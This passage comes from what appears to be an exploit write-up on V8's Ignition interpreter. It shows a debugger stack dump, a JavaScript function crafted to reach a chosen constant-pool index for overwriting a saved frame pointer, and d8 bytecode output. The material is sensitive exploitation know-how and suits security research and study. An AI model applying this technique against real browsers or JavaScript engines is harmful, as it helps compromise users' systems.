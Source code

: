 The saved RBP we want to target is this one:

```none
             vvvvvvvvvvvvvv
16:00b0│+068 0x7ffc026c2748 —▸ 0x7ffc026c2778 —▸ 0x7ffc026c27f0 —▸ 0x7ffc026c2950 —▸ 0x7ffc026c29c0 ◂— ...
17:00b8│+070 0x7ffc026c2750 —▸ 0x62b8aa6ac59c (Builtins_JSEntryTrampoline+92) ◂— mov rsp, rbp
```

It appears to be at `rbp + 8 * 14` so the constant pool index we want is `14`.
We can write a function with a few more constants to get the index we want.
Constants are put in the constant pool array more or less in the same order they
appear in the enclosing function, so this is straightforward.

> [!NOTE]
> The space in the stack frame of the Ignition opcode handler may change due to
> the code we write (inside or even outside the function), so the index may need
> a second adjustment. In the above example we needed `rbp + 8 * 14`, but for my
> final exploit script it ended up being `rbp + 8 * 18` instead. YMMV.

```js
// x.js
function f(x) {
    g0 = 1.1;
    g1 = 2.2;
    g3 = 3.3;
    g4 = 4.4;
    g5 = 5.5;
    g6 = 6.60;
    g6 = 6.61;

    let a = 1336.1337 + x;
    g = 69.420;
}
```

```none
./d8 --allow-natives-syntax --shell x.js
d8> f(0)
undefined
d8> %DebugPrint(f0)
[...]
 - bytecode: 0x259b000400f1 <BytecodeArray[51]>
[...]
d8> %DebugPrintPtr(0x259b000400f1)
DebugPrint: 0x259b000400f1: [BytecodeArray]
 - map: 0x12e600000971 <Map(BYTECODE_ARRAY_TYPE)>
Parameter count 2
Register count 2
Frame size 16
         0x259b00040118 @    0 : 13 00             LdaConstant [0]
         0x259b0004011a @    2 : 23 01 00          StaGlobal [1], [0]
         0x259b0004011d @    5 : 13 02             LdaConstant [2]
         0x259b0004011f @    7 : 23 03 02          StaGlobal [3], [2]
         0x259b00040122 @   10 : 13 04             LdaConstant [4]
         0x259b00040124 @   12 : 23 05 04          StaGlobal [5], [4]
         0x259b00040127 @   15 : 13 06             LdaConstant [6]
         0x259b00040129 @   17 : 23 07 06          StaGlobal [7], [6]
         0x259b0004012c @   20 : 13 08             LdaConstant [8]
         0x259b0004012e @   22 : 23 09 08          StaGlobal [9], [8]
         0x259b00040131 @   25 : 13 0a             LdaConstant [10]
         0x259b00040133 @   27 : 23 0b 0a          StaGlobal [11], [10]
         0x259b00040136 @   30 : 13 0c             LdaConstant [12]
         0x259b00040138 @   32 : 23 0b 0a          StaGlobal [11], [10]
         0x259b0004013b @   35 : 13 0d             LdaConstant [13]
         0x259b0004013d @   37 : c9                Star1
         0x259b0004013e @   38 : 0b 03             Ldar a0
```

[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg